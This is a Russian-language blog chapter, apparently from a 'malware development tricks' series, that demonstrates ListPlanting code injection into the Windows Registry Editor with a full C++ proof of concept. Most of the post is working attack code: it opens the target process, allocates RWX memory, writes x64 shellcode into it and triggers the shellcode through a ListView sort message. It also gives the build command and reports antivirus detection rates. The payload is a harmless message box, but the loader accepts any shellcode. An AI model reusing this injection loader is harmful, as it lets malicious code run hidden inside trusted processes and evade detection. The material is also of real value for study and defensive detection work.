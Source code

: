 \newpage
\subsection{37. трюки разработки вредоносного ПО. Listplanting. Пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

Привет, энтузиасты кибербезопасности и белые хакеры!

![инъекция](./images/81/2022-11-28_03-03.png){width="80%"}    

Этот пост является результатом моего собственного исследования трюка разработки вредоносного ПО: Listplanting.     

Используя сообщения `LVM_SORTGROUPS`, `LVM_INSERTGROUPSORTED` и `LVM_SORTITEMS`, можно изменить поведение сортировки элементов и групп `ListView`-контрола в соответствии с индивидуальными предпочтениями. `ListView`-контролы - это окна пользовательского интерфейса, которые отображают группы элементов. Контрол `SysListView32` хранит информацию о параметрах представления списка приложения в памяти процесса.    

*ListPlanting* может быть выполнен путём копирования кода в виртуальное адресное пространство процесса, использующего `ListView`-контрол, а затем использования этого кода в качестве пользовательской функции обратного вызова для сортировки элементов списка.    

### практический пример

Рассмотрим практический пример. Трюк довольно прост:    

Сначала получаем хендл окна:

```cpp
HWND wpw = FindWindow(NULL, (LPCSTR)"Registry Editor");
HWND hw = FindWindowEx(wpw, 0, (LPCSTR)"SysListView32", 0);
```

Затем получаем идентификатор процесса и открываем его (получаем хендл процесса с помощью `OpenProcess`):   

```cpp
GetWindowThreadProcessId(hw, &pid);
ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
```

На следующем шаге выделяем RWX-память через `VirtualAllocEx` и "копируем" полезную нагрузку:     

```cpp
mem = VirtualAllocEx(ph, NULL, sizeof(my_payload), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

// copy payload
WriteProcessMemory(ph, mem, my_payload, sizeof(my_payload), NULL);
```

Наконец, запускаем полезную нагрузку:    

```cpp
// trigger payload
PostMessage(hw, LVM_SORTITEMS, 0, (LPARAM)mem);
```

Согласно [документации](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-postmessagea), `PostMessage` - помещает (отправляет) сообщение в очередь сообщений, связанную с потоком, который создал указанное окно, и возвращает управление, не дожидаясь обработки сообщения потоком.      

Полный исходный код моего PoC:      

```cpp
/*
hack.cpp
code injection Listplanting
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/11/27/malware-tricks-24.html
*/
#include <windows.h>
#include <commctrl.h>
#include <iostream>
#pragma comment (lib, "user32.lib")

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE ph;
  DWORD pid;
  LPVOID mem;

  // find window
  HWND wpw = FindWindow(NULL, (LPCSTR)"Registry Editor");
  HWND hw = FindWindowEx(wpw, 0, (LPCSTR)"SysListView32", 0);

  // obtain the process id and try to open process
  GetWindowThreadProcessId(hw, &pid);
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

  // allocate RWX memory
  mem = VirtualAllocEx(ph, NULL, sizeof(my_payload), MEM_RESERVE | MEM_COMMIT,
   PAGE_EXECUTE_READWRITE);

  // copy payload
  WriteProcessMemory(ph, mem, my_payload, sizeof(my_payload), NULL);

  // trigger payload
  PostMessage(hw, LVM_SORTITEMS, 0, (LPARAM)mem);

  // free memory
  VirtualFreeEx(ph, mem, 0, MEM_DECOMMIT | MEM_RELEASE);
  CloseHandle(ph);

  return 0;
}
```

Как обычно, для простоты я использовал всплывающее окно с сообщением `meow-meow` в качестве полезной нагрузки:    

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### демонстрация

Давайте посмотрим всё в действии. Компилируем наш "вредонос":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![инъекция](./images/81/2022-11-28_03-25.png){width="80%"}    

Затем запускаем редактор реестра на машине жертвы (`Windows 10 x64` в моём случае):      

![инъекция](./images/81/2022-11-28_04-11.png){width="80%"}    

И запускаем наш `hack.exe`:    

```powershell
.\hack.exe
```

![инъекция](./images/81/2022-11-28_04-13.png){width="80%"}    

![инъекция](./images/81/2022-11-28_04-13_1.png){width="80%"}    

Запускаем от имени администратора, так как для инъекции в редактор реестра (`regedit.exe`) требуются повышенные привилегии.     

Для проверки корректности запускаем `Process Hacker 2` от имени администратора и проверяем вкладку *память*:     

![инъекция](./images/81/2022-11-28_04-16.png){width="80%"}    

![инъекция](./images/81/2022-11-28_04-18.png){width="80%"}    

Как можно заметить, всё работает идеально :)    

Давайте загрузим `hack.exe` на VirusTotal:    

![инъекция](./images/81/2022-11-28_04-21.png){width="80%"}    

**Итак, 19 из 71 антивирусных движков определили наш файл как вредоносный.**    

[https://www.virustotal.com/gui/file/a1037630f95f721c6a7a1b6d8c278b4e926253b3888ac838d507af8c8baf8844/detection](https://www.virustotal.com/gui/file/a1037630f95f721c6a7a1b6d8c278b4e926253b3888ac838d507af8c8baf8844/detection)     

Эта техника используется в [InvisiMole](https://attack.mitre.org/software/S0260/). *InvisiMole* - это модульное шпионское программное обеспечение, которое группа InvisiMole использует как минимум с 2013 года.      

Надеюсь, этот пост повысит осведомлённость синих команд об этой интересной технике и добавит оружие в арсенал красных команд.      

[ATT&CK MITRE: ListPlanting](https://attack.mitre.org/techniques/T1055/015/)      
[InvisiMole](https://attack.mitre.org/software/S0260/)     
[PostMessage](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-postmessagea)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-11-27-malware-tricks-24)       
